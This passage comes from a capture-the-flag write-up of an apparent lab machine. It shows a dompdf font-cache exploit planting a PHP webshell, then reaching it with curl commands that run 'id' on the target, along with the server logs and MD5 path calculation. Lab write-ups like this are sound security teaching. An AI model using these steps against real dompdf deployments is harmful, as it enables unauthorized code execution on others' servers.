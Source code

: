 ![image-20230213143244084](../img/image-20230213143244084.png)

There’s a hit for the CSS file, and then the font:

    
    
    10.10.11.200 - - [13/Feb/2023 19:36:27] "GET /exploit.css HTTP/1.0" 200 -
    10.10.11.200 - - [13/Feb/2023 19:36:27] "GET /exploit_font.php HTTP/1.0" 200 -
    

To find it, I’ll need to calculate the URL of the cached font, each of which I
defined in the CSS file, except the MD5 which I’ll calculate:

    
    
    oxdf@hacky$ echo -n "http://10.10.14.6/exploit_font.php" | md5sum
    fa98e7a2405d7716b5dd59ed89e2601b  -
    

So the URL becomes:

    
    
    /vendor/dompdf/dompdf/lib/fonts/[family]_[style]_[m5d(url)].php
    /vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php
    

It works:

    
    
    oxdf@hacky$ curl -s http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php?cmd=id -o- | tail -1
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

Because the file is binary, I’ll need `-o-` to get `curl` to output it to
STDOUT. I’m then piping that result into `tail` to remove all the binary junk,
printing just the last line, which is the output of the webshell.

### Shell

To get a shell, I’ll convert the previous command into a POST request, with
URL encoded data, just to make sure it still works:

    
    
    oxdf@hacky$ curl -s --data-urlencode 'cmd=id' -o- http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php | tail -1
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

Now I’ll replace the `id` with a simple [Bash
webshell](https://www.youtube.com/watch?v=OjkVep2EIlw):
